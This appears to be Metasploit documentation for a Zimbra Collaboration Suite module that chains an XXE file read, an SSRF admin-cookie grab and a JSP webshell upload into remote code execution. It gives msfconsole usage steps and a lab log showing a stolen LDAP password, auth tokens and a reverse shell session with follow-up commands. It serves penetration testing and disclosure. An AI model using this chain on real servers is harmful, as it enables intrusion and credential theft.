 ## Description

This module exploits an XML external entity vulnerability and a server side request forgery to get unauthenticated code execution on Zimbra Collaboration Suite. The XML external entity vulnerability in the Autodiscover Servlet is used to read a Zimbra configuration file that contains an LDAP password for the 'zimbra' account. The zimbra credentials are then used to get a user authentication cookie with an AuthRequest message. Using the user cookie, a server side request forgery in the Proxy Servlet is used to proxy an AuthRequest with the 'zimbra' credentials to the admin port to retrieve an admin cookie. After gaining an admin cookie the ClientUploader is used to upload a JSP webshell that can be triggered from the web server to get command execution on the host. The issues reportedly affect Zimbra Collaboration Suite v8.5 to v8.7.11. This module was tested with Zimbra Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.

## Vulnerable Application

Zimbra Collaboration Suite v8.5 to v8.7.11.

[Zimbra 8.7.1 GA FOSS Edition](https://files.zimbra.com/downloads/8.7.1_GA/zcs-8.7.1_GA_1670.UBUNTU16_64.20161025045114.tgz)

[Installation](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/linux/http/zimbra_xxe_rce`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`

## Scenarios

### Zimbra 8.7.1 GA 1670 FOSS edition Tested on Ubuntu 16.04.6 LTS

```
msf5 exploit(linux/http/zimbra_xxe_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Using URL: http://0.0.0.0:8080/2tQ75DxRvaeGRSP
[*] Local IP: http://192.168.171.150:8080/2tQ75DxRvaeGRSP
[*] Server started.
[+] Password found: Syz7fOPJI
[+] User cookie retrieved: ZM_AUTH_TOKEN=0_c6df3ed73afbefd7eff40eb9f6999794ebf764b5_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343239343539303239353b747970653d363a7a696d6272613b753d313a613b7469643d393a3538303338373138373b;
[+] Admin cookie retrieved: ZM_ADMIN_AUTH_TOKEN=0_c1c8a6c715eb8f55c14aa63e82a8ff64e4fbe279_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343136343939303333353b61646d696e3d313a313b747970653d363a7a696d6272613b753d313a613b7469643d383a36303437383736333b;
[*] Uploading jsp shell
[*] Executing payload on /downloads/XFlHBolHjLB.jsp
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.111:53746) at 2019-04-01 07:29:51 -0500
[*] Server stopped.

whoami
zimbra
uname -a
Linux zimbra.mylocaldomain.local 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
../bin/zmcontrol -v
Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.
exit
[*] 172.22.222.111 - Command shell session 1 closed.
```

